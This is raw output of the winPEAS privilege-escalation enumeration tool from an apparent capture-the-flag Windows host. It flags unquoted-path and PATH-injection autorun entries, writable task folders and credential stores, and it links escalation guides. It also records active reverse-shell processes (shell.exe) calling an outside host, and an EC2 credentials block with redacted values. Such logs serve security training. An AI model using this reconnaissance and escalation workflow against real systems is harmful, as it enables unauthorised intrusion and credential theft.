    File: C:\Program Files\Internet Explorer\iexplore.exe %1 (Unquoted and Space detected) - C:\
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Classes\htmlfile\shell\open\command
    Folder: C:\Program Files\Internet Explorer
    File: C:\Program Files\Internet Explorer\iexplore.exe %1 (Unquoted and Space detected) - C:\
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: rpcrt4
    Folder: None (PATH Injection)
    File: rpcrt4.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: DllDirectory
    Folder: C:\Windows\system32
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: combase
    Folder: None (PATH Injection)
    File: combase.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: gdiplus
    Folder: None (PATH Injection)
    File: gdiplus.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: IMAGEHLP
    Folder: None (PATH Injection)
    File: IMAGEHLP.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: MSVCRT
    Folder: None (PATH Injection)
    File: MSVCRT.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: SHLWAPI
    Folder: None (PATH Injection)
    File: SHLWAPI.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: COMDLG32
    Folder: None (PATH Injection)
    File: COMDLG32.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: NORMALIZ
    Folder: None (PATH Injection)
    File: NORMALIZ.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: PSAPI
    Folder: None (PATH Injection)
    File: PSAPI.DLL
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: WLDAP32
    Folder: None (PATH Injection)
    File: WLDAP32.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: ole32
    Folder: None (PATH Injection)
    File: ole32.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: DllDirectory32
    Folder: C:\Windows\syswow64
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: IMM32
    Folder: None (PATH Injection)
    File: IMM32.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: _Wow64cpu
    Folder: None (PATH Injection)
    File: Wow64cpu.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: MSCTF
    Folder: None (PATH Injection)
    File: MSCTF.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: _Wow64win
    Folder: None (PATH Injection)
    File: Wow64win.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: OLEAUT32
    Folder: None (PATH Injection)
    File: OLEAUT32.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: LPK
    Folder: None (PATH Injection)
    File: LPK.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: clbcatq
    Folder: None (PATH Injection)
    File: clbcatq.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: WS2_32
    Folder: None (PATH Injection)
    File: WS2_32.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: SHELL32
    Folder: None (PATH Injection)
    File: SHELL32.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: gdi32
    Folder: None (PATH Injection)
    File: gdi32.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: _Wow64
    Folder: None (PATH Injection)
    File: Wow64.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: DifxApi
    Folder: None (PATH Injection)
    File: difxapi.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: Setupapi
    Folder: None (PATH Injection)
    File: Setupapi.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: kernel32
    Folder: None (PATH Injection)
    File: kernel32.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: advapi32
    Folder: None (PATH Injection)
    File: advapi32.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: user32
    Folder: None (PATH Injection)
    File: user32.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: NSI
    Folder: None (PATH Injection)
    File: NSI.dll
   =================================================================================================
    RegPath: HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls
    Key: sechost
    Folder: None (PATH Injection)
    File: sechost.dll
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Active Setup\Installed Components\{44BBA840-CC51-11CF-AAFA-00AA00B6015C}
    Key: StubPath
    Folder: C:\Program Files (x86)\Windows Mail
    File: C:\Program Files (x86)\Windows Mail\WinMail.exe OCInstallUserConfigOE (Unquoted and Space detected) - C:\
   =================================================================================================
    RegPath: HKLM\Software\Microsoft\Active Setup\Installed Components\{89B4C1CD-B018-4511-B0A1-5476DBF70820}
    Key: StubPath
    Folder: C:\Windows\SysWOW64
    File: C:\Windows\SysWOW64\Rundll32.exe C:\Windows\SysWOW64\mscories.dll,Install
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Active Setup\Installed Components\{44BBA840-CC51-11CF-AAFA-00AA00B6015C}
    Key: StubPath
    Folder: C:\Program Files (x86)\Windows Mail
    File: C:\Program Files (x86)\Windows Mail\WinMail.exe OCInstallUserConfigOE (Unquoted and Space detected) - C:\
   =================================================================================================
    RegPath: HKLM\Software\Wow6432Node\Microsoft\Active Setup\Installed Components\{89B4C1CD-B018-4511-B0A1-5476DBF70820}
    Key: StubPath
    Folder: C:\Windows\SysWOW64
    File: C:\Windows\SysWOW64\Rundll32.exe C:\Windows\SysWOW64\mscories.dll,Install
   =================================================================================================
    Folder: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
    File: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\desktop.ini
    Potentially sensitive file content: LocalizedResourceName=@%SystemRoot%\system32\shell32.dll,-21787
   =================================================================================================
    Folder: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
    File: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\Ec2WallpaperInfo.url
   =================================================================================================
    Folder: C:\windows\tasks
    FolderPerms: Authenticated Users [WriteData/CreateFiles]
   =================================================================================================
    Folder: C:\windows\system32\tasks
    FolderPerms: Authenticated Users [WriteData/CreateFiles]
   =================================================================================================
    Folder: C:\windows
    File: C:\windows\system.ini
   =================================================================================================
    Folder: C:\windows
    File: C:\windows\win.ini
   =================================================================================================
ÉÍÍÍÍÍÍÍÍÍ͹ Scheduled Applications --Non Microsoft--
È Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
ÉÍÍÍÍÍÍÍÍÍ͹ Device Drivers --Non Microsoft--
È Check 3rd party drivers for known vulnerabilities/rootkits. https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#vulnerable-drivers
    XENBUS - 8.2.6.54 [Amazon Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\xenbus.sys
    XEN - 8.2.6.54 [Amazon Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\xen.sys
    XENFILT - 8.2.6.54 [Amazon Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\xenfilt.sys
    VIA PCI IDE MINI Driver - 6,0,6000,170 [VIA Technologies, Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\viaide.sys
    NVIDIA nForce(TM) RAID Driver - 10.6.0.22 [NVIDIA Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\nvraid.sys
    Broadcom NetXtreme II GigE - 7.4.14.0 [Broadcom Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\bxvbda.sys
    Broadcom NetXtreme II 10 GigE - 7.4.33.1 [Broadcom Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\evbda.sys
    Intel Matrix Storage Manager driver - 8.6.2.1019 [Intel Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\iaStorV.sys
    Adaptec RAID Controller - 7.2.0.30261 [PMC-Sierra, Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\arcsas.sys
    NVIDIA nForce(TM) SATA Driver - 10.6.0.22 [NVIDIA Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\nvstor.sys
    LSI Fusion-MPT SAS Driver (StorPort) - 1.34.03.82 [LSI Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\lsi_sas.sys
    LSI SAS Gen2 Driver (StorPort) - 2.00.60.82 [LSI Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\lsi_sas2.sys
    LSI SAS Gen3 Driver (StorPort) - 2.50.65.01 [LSI Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\lsi_sas3.sys
    LSI 3ware RAID Controller - WindowsBlue [LSI]: \\.\GLOBALROOT\SystemRoot\System32\drivers\3ware.sys
    LSI SSS PCIe/Flash Driver (StorPort) - 2.10.61.81 [LSI Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\lsi_sss.sys
    Marvell Flash Controller -  1.0.5.1015  [Marvell Semiconductor, Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\mvumis.sys
    VIA StorX RAID Controller Driver - 8.0.9200.8110 [VIA Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\vstxraid.sys
    MEGASAS RAID Controller Driver for Windows - 6.600.21.08 [LSI Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\megasas.sys
    MegaRAID Software RAID - 15.02.2013.0129 [LSI Corporation, Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\megasr.sys
    Intel Rapid Storage Technology driver (inbox) - 12.0.1.1018 [Intel Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\iaStorAV.sys
    AHCI 1.3 Device Driver - 1.1.4.14 [Advanced Micro Devices]: \\.\GLOBALROOT\SystemRoot\System32\drivers\amdsata.sys
    Storage Filter Driver - 1.1.4.14 [Advanced Micro Devices]: \\.\GLOBALROOT\SystemRoot\System32\drivers\amdxata.sys
    AMD Technology AHCI Compatible Controller - 3.7.1540.43 [AMD Technologies Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\amdsbs.sys
    VIA RAID driver - 7.0.9200,6320 [VIA Technologies Inc.,Ltd]: \\.\GLOBALROOT\SystemRoot\System32\drivers\vsmraid.sys
    Microsoftr Windowsr Operating System - 2.60.01 [Silicon Integrated Systems Corp.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\SiSRaid2.sys
    Microsoftr Windowsr Operating System - 6.1.6918.0 [Silicon Integrated Systems]: \\.\GLOBALROOT\SystemRoot\System32\drivers\sisraid4.sys
     Promiser SuperTrak EX Series -  5.1.0000.10 [Promise Technology, Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\stexstor.sys
    QLogic Fibre Channel Stor Miniport Inbox Driver - 9.1.11.3 [QLogic Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\ql2300i.sys
    QLogic FCoE Stor Miniport Inbox Driver - 9.1.11.3 [QLogic Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\qlfcoei.sys
    QLA40XX iSCSI Host Bus Adapter - 2.1.5.0 (STOREx wx64) [QLogic Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\ql40xx2i.sys
    Emulex WS2K12 Storport Miniport Driver x64 - 2.74.214.004 05/23/2013 WS2K12 64 bit x64 [Emulex]: \\.\GLOBALROOT\SystemRoot\System32\drivers\elxstor.sys
    Emulex WS2K12 Storport Miniport Driver x64 - 2.74.214.004 05/23/2013 WS2K12 64 bit x64 [Emulex]: \\.\GLOBALROOT\SystemRoot\System32\drivers\elxfcoe.sys
    Brocade FC/FCoE HBA Stor Miniport Driver - 3.2.2.5 [Brocade Communications Systems, Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\bfadi.sys
    Brocade FC/FCoE HBA Stor Miniport Driver - 3.2.2.5 [Brocade Communications Systems, Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\bfadfcoei.sys
    XENVBD - 8.2.6.29 [Amazon Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\xenvbd.sys
    XENCRSH - 8.2.6.29 [Amazon Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\xencrsh.sys
    Amazon NVMe Storage Driver - V1.3.0 [Amazon]: \\.\GLOBALROOT\SystemRoot\System32\drivers\AWSNVMe.sys
    PMC-Sierra HBA Controller - 1.0.0.0254 [PMC-Sierra]: \\.\GLOBALROOT\SystemRoot\System32\drivers\ADP80XX.SYS
    Smart Array SAS/SATA Controller Media Driver - 8.0.4.0 Build 1 Media Driver (x86-64) [Hewlett-Packard Company]: \\.\GLOBALROOT\SystemRoot\System32\drivers\HpSAMD.sys
    OpenFabrics Windows - 6.3.9391.6 [Mellanox]: \\.\GLOBALROOT\SystemRoot\System32\drivers\mlx4_bus.sys
    OpenFabrics Windows - 6.3.9391.6 [Mellanox]: \\.\GLOBALROOT\SystemRoot\System32\drivers\ibbus.sys
    OpenFabrics Windows - 6.3.9391.6 [Mellanox]: \\.\GLOBALROOT\SystemRoot\System32\drivers\ndfltr.sys
    OpenFabrics Windows - 6.3.9391.6 [Mellanox]: \\.\GLOBALROOT\SystemRoot\System32\drivers\winverbs.sys
    OpenFabrics Windows - 6.3.9391.6 [Mellanox]: \\.\GLOBALROOT\SystemRoot\System32\drivers\winmad.sys
    Broadcom iSCSI offload driver - 7.4.4.0 [Broadcom Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\bxois.sys
    Broadcom FCoE offload driver - 7.4.6.0 [Broadcom Corporation]: \\.\GLOBALROOT\SystemRoot\System32\drivers\bxfcoe.sys
    XENVIF - 8.2.5.22 [Amazon Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\xenvif.sys
    XENIFACE - 8.2.5.39 [Amazon Inc.]: \\.\GLOBALROOT\SystemRoot\System32\drivers\xeniface.sys
    XENNET - 8.2.5.32 [Amazon Inc.]: \\.\GLOBALROOT\SystemRoot\system32\DRIVERS\xennet.sys
    Macrovision SECURITY Driver - SECURITY Driver 4.03.086 2006/09/13 [Macrovision Corporation, Macrovision Europe Limited, and Macrovision Japan and Asia K.K.]: \\.\GLOBALROOT\SystemRoot\System32\Drivers\secdrv.SYS
ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ Network Information ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ
ÉÍÍÍÍÍÍÍÍÍ͹ Network Shares
    ADMIN$ (Path: )
    C$ (Path: )
    IPC$ (Path: )
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerate Network Mapped Drives (WMI)
ÉÍÍÍÍÍÍÍÍÍ͹ Host File
ÉÍÍÍÍÍÍÍÍÍ͹ Network Ifaces and known hosts
È The masks are only for the IPv4 addresses
  [X] Exception: The requested protocol has not been configured into the system, or no implementation for it exists
    Ethernet 2[02:2B:B4:2A:57:71]: 10.10.200.118, fe80::a910:822d:b0ac:7e60%14 / 255.255.0.0
        Gateways: 10.10.0.1
        DNSs: 10.0.0.2
    Loopback Pseudo-Interface 1[]: 127.0.0.1, ::1 / 255.0.0.0
        DNSs: fec0:0:0:ffff::1%1, fec0:0:0:ffff::2%1, fec0:0:0:ffff::3%1
ÉÍÍÍÍÍÍÍÍÍ͹ Current TCP Listening Ports
È Check for services restricted from the outside
  Enumerating IPv4 connections

  Protocol   Local Address         Local Port    Remote Address        Remote Port     State
   Process ID      Process Name
  TCP        0.0.0.0               80            0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               135           0.0.0.0               0               Listening         788             svchost
  TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               3389          0.0.0.0               0               Listening         2004            svchost
  TCP        0.0.0.0               5985          0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               47001         0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               49152         0.0.0.0               0               Listening         592             wininit
  TCP        0.0.0.0               49153         0.0.0.0               0               Listening         880             svchost
  TCP        0.0.0.0               49154         0.0.0.0               0               Listening         908             svchost
  TCP        0.0.0.0               49155         0.0.0.0               0               Listening         1152            spoolsv
  TCP        0.0.0.0               49156         0.0.0.0               0               Listening         684             lsass
  TCP        0.0.0.0               49165         0.0.0.0               0               Listening         676             services
  TCP        10.10.200.118         80            10.11.87.75           34186           Established       4               System
  TCP        10.10.200.118         80            10.11.87.75           35308           Close Wait        4               System
  TCP        10.10.200.118         139           0.0.0.0               0               Listening         4               System
  TCP        10.10.200.118         49283         10.11.87.75           3333            Close Wait        2288            w3wp
  TCP        10.10.200.118         49308         10.11.87.75           4443            Close Wait        2092            c:\Windows\Temp\shell.exe
  TCP        10.10.200.118         49313         10.11.87.75           4443            Close Wait        1404            c:\Windows\Temp\shell.exe
  TCP        10.10.200.118         49326         10.11.87.75           3333            Established       2288            w3wp
  TCP        10.10.200.118         49327         10.11.87.75           4443            Established       820             c:\Windows\Temp\shell.exe
  TCP        10.10.200.118         49328         10.11.87.75           4443            Close Wait        1896            c:\Windows\Temp\shell.exe

  Enumerating IPv6 connections

  Protocol   Local Address                               Local Port    Remote Address
             Remote Port     State             Process ID      Process Name
  TCP        [::]                                        80            [::]
             0               Listening         4               System
  TCP        [::]                                        135           [::]
             0               Listening         788             svchost
  TCP        [::]                                        445           [::]
             0               Listening         4               System
  TCP        [::]                                        3389          [::]
             0               Listening         2004            svchost
  TCP        [::]                                        5985          [::]
             0               Listening         4               System
  TCP        [::]                                        47001         [::]
             0               Listening         4               System
  TCP        [::]                                        49152         [::]
             0               Listening         592             wininit
  TCP        [::]                                        49153         [::]
             0               Listening         880             svchost
  TCP        [::]                                        49154         [::]
             0               Listening         908             svchost
  TCP        [::]                                        49155         [::]
             0               Listening         1152            spoolsv
  TCP        [::]                                        49156         [::]
             0               Listening         684             lsass
  TCP        [::]                                        49165         [::]
             0               Listening         676             services
ÉÍÍÍÍÍÍÍÍÍ͹ Current UDP Listening Ports
È Check for services restricted from the outside
  Enumerating IPv4 connections

  Protocol   Local Address         Local Port    Remote Address:Remote Port     Process ID        Process Name
  UDP        0.0.0.0               123           *:*                            968               svchost
  UDP        0.0.0.0               3389          *:*                            2004              svchost
  UDP        0.0.0.0               5355          *:*                            68                svchost
  UDP        10.10.200.118         137           *:*                            4                 System
  UDP        10.10.200.118         138           *:*                            4                 System
  UDP        127.0.0.1             50413         *:*                            2624              c:\Windows\Temp\winPEASx86_ofs.exe
  UDP        127.0.0.1             50414         *:*                            2216              c:\Windows\Temp\winPEASx86_ofs.exe

  Enumerating IPv6 connections

  Protocol   Local Address                               Local Port    Remote Address:Remote Port     Process ID        Process Name
  UDP        [::]                                        123           *:*
968               svchost
  UDP        [::]                                        3389          *:*
2004              svchost
  UDP        [::]                                        5355          *:*
68                svchost
ÉÍÍÍÍÍÍÍÍÍ͹ Firewall Rules
È Showing only DENY rules (too many ALLOW rules always)
    Current Profiles: PUBLIC
    FirewallEnabled (Domain):    True
    FirewallEnabled (Private):    True
    FirewallEnabled (Public):    True
    DENY rules:
ÉÍÍÍÍÍÍÍÍÍ͹ DNS cached --limit 70--
    Entry                                 Name                                  Data
    win8.ipv6.microsoft.com
    _ldap._tcp.dc._msdcs.hackpark
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating Internet settings, zone and proxy configuration
  General Settings
  Hive        Key                                       Value
  HKCU        User Agent                                Mozilla/4.0 (compatible; MSIE 8.0; Win32)
  HKCU        IE5_UA_Backup_Flag                        5.0
  HKCU        ZonesSecurityUpgrade                      System.Byte[]
  HKLM        CodeBaseSearchPath                        CODEBASE
  HKLM        WarnOnIntranet                            1
  HKLM        EnablePunycode                            1
  HKLM        MinorVersion                              0
  HKLM        ActiveXCache                              C:\Windows\Downloaded Program Files

  Zone Maps
  No URLs configured

  Zone Auth Settings
  No Zone Auth Settings
ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ Cloud Information ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ
AWS EC2?                                Yes
Azure VM?                               No
Google Cloud Platform?                  No
ÉÍÍÍÍÍÍÍÍÍ͹ AWS EC2 Enumeration
General Info
ami id                        ami-09e88d9d432914ff6
instance action               none
instance id                   i-0c8d9037a6eab2814
instance life-cycle           spot
instance type                 t2.medium
placement/region              eu-west-1

Account Info
account info
{
  "Code" : "Success",
  "LastUpdated" : "2024-10-21T11:46:19Z",
  "AccountId" : "739930428441"
}

Network Info
Owner ID                      739930428441
Public Hostname               No data received from the metadata endpoint
Security Groups               AllowEverything
Private IPv4s                 No data received from the metadata endpoint
Subnet IPv4                   10.10.0.0/16
Private IPv6s                 No data received from the metadata endpoint
Subnet IPv6                   No data received from the metadata endpoint
Public IPv4s                  No data received from the metadata endpoint

IAM Role
iam/info                      No data received from the metadata endpoint
                              No data received from the metadata endpoint

User Data
user-data                     No data received from the metadata endpoint

EC2 Security Credentials
ec2-instance
{
  "Code" : "Success",
  "LastUpdated" : "2024-10-21T11:46:16Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "REDACTED_AWS_ACCESS_KEY_ID",
  "SecretAccessKey" : "REDACTED_AWS_SECRET_ACCESS_KEY",
  "Token" : "REDACTED_AWS_SESSION_TOKEN",
  "Expiration" : "2024-10-21T18:01:01Z"
}

ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ Windows Credentials ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ
ÉÍÍÍÍÍÍÍÍÍ͹ Checking Windows Vault
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-manager-windows-vault
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Checking Credential manager
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-manager-windows-vault
    [!] Warning: if password contains non-printable characters, it will be printed as unicode base64 encoded string
  [!] Unable to enumerate credentials automatically, error: 'Win32Exception: System.ComponentModel.Win32Exception (0x80004005): Element not found'
Please run:
cmdkey /list
ÉÍÍÍÍÍÍÍÍÍ͹ Saved RDP connections
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Remote Desktop Server/Client Settings
  RDP Server Settings
    Network Level Authentication            :
    Block Clipboard Redirection             :
    Block COM Port Redirection              :
    Block Drive Redirection                 :
    Block LPT Port Redirection              :
    Block PnP Device Redirection            :
    Block Printer Redirection               :
    Allow Smart Card Redirection            :

  RDP Client Settings
    Disable Password Saving                 :       True
    Restricted Remote Administration        :       False
ÉÍÍÍÍÍÍÍÍÍ͹ Recently run commands
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Checking for DPAPI Master Keys
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dpapi
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Checking for DPAPI Credential Files
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dpapi
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Checking for RDCMan Settings Files
È Dump credentials from Remote Desktop Connection Manager https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#remote-desktop-credential-manager
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for Kerberos tickets
È  https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88
  [X] Exception: Object reference not set to an instance of an object.
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for saved Wifi credentials
  [X] Exception: Unable to load DLL 'wlanapi.dll': The specified module could not be found. (Exception from HRESULT: 0x8007007E)
Enumerating WLAN using wlanapi.dll failed, trying to enumerate using 'netsh'
No saved Wifi credentials found
ÉÍÍÍÍÍÍÍÍÍ͹ Looking AppCmd.exe
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#appcmd.exe
    AppCmd.exe was found in C:\Windows\system32\inetsrv\appcmd.exe
      You must be an administrator to run this check
ÉÍÍÍÍÍÍÍÍÍ͹ Looking SSClient.exe
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#scclient-sccm
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating SSCM - System Center Configuration Manager settings
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating Security Packages Credentials
  [X] Exception: Couldn't parse nt_resp. Len: 0 Message bytes: 4e544c4d5353500003000000010001006800000000000000690000000000000058000000000000005800000010001000580000000000000069000000058a80a2060380250000000f3e77a25503851d9600bc4fbd3a5c981c4800410043004b005000410052004b0000
ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ Browsers Information ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ
ÉÍÍÍÍÍÍÍÍÍ͹ Showing saved credentials for Firefox
    Info: if no credentials were listed, you might need to close the browser and try again.
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for Firefox DBs
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#browsers-history
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for GET credentials in Firefox history
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#browsers-history
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Showing saved credentials for Chrome
    Info: if no credentials were listed, you might need to close the browser and try again.
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for Chrome DBs
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#browsers-history
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for GET credentials in Chrome history
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#browsers-history
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Chrome bookmarks
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Showing saved credentials for Opera
    Info: if no credentials were listed, you might need to close the browser and try again.
ÉÍÍÍÍÍÍÍÍÍ͹ Showing saved credentials for Brave Browser
    Info: if no credentials were listed, you might need to close the browser and try again.
ÉÍÍÍÍÍÍÍÍÍ͹ Showing saved credentials for Internet Explorer (unsupported)
    Info: if no credentials were listed, you might need to close the browser and try again.
ÉÍÍÍÍÍÍÍÍÍ͹ Current IE tabs
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#browsers-history
  [X] Exception: System.Reflection.TargetInvocationException: Exception has been thrown by the target of an invocation. ---> System.UnauthorizedAccessException: Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED))
   --- End of inner exception stack trace ---
   at System.RuntimeType.InvokeDispMethod(String name, BindingFlags invokeAttr, Object target, Object[] args, Boolean[] byrefModifiers, Int32 culture, String[] namedParameters)
   at System.RuntimeType.InvokeMember(String name, BindingFlags bindingFlags, Binder binder, Object target, Object[] providedArgs, ParameterModifier[] modifiers, CultureInfo culture, String[] namedParams)
   at fl.l()
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for GET credentials in IE history
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#browsers-history
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ IE favorites
    Not Found
ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ Interesting files and registry ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ
ÉÍÍÍÍÍÍÍÍÍ͹ Putty Sessions
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Putty SSH Host keys
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ SSH keys in registry
È If you find anything here, follow the link to learn how to decrypt the SSH keys https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#ssh-keys-in-registry
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ SuperPutty configuration files
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating Office 365 endpoints synced by OneDrive.

    SID: S-1-5-19
